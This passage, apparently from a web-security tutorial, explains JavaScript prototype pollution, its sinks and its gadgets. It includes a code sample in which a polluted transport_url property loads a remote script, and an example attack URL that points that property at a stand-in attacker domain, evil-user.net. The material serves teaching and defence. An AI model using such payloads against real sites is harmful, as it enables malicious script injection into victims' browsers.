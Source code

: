If the object created via `JSON.parse()` is subsequently merged into an existing object without proper key sanitization, this will also lead to prototype pollution during the assignment, as we saw in the [URL-based example](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-the-url) above.

## Prototype pollution sinks
A prototype pollution sink is essentially just a JavaScript function or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands. We've covered some client-side sinks extensively in our topic on [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based).

As prototype pollution lets you control properties that would otherwise be inaccessible, this potentially enables you to reach a number of additional sinks within the target application. Developers who are unfamiliar with prototype pollution may wrongly assume that these properties are not user controllable, which means there may only be minimal filtering or sanitization in place.

## Prototype pollution gadgets

A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:
- Used by the application in an unsafe way, such as passing it to a sink without proper filtering or sanitization.
- Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.

A property cannot be a gadget if it is defined directly on the object itself. In this case, the object's own version of the property takes precedence over any malicious version you're able to add to the prototype. [Robust websites](https://portswigger.net/web-security/prototype-pollution/preventing#preventing-an-object-from-inheriting-properties) may also explicitly set the prototype of the object to `null`, which ensures that it doesn't inherit any properties at all.

### Example of a prototype pollution gadget
Many JavaScript libraries accept an object that developers can use to set different configuration options. The library code checks whether the developer has explicitly added certain properties to this object and, if so, adjusts the configuration accordingly. If a property that represents a particular option is not present, a predefined default option is often used instead. A simplified example may look something like this:

`let transport_url = config.transport_url || defaults.transport_url;`

Now imagine the library code uses this `transport_url` to add a script reference to the page:
```javascript
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```
If the website's developers haven't set a `transport_url` property on their `config` object, this is a potential gadget. In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by the `config` object and, therefore, set as the `src` for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:
`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`
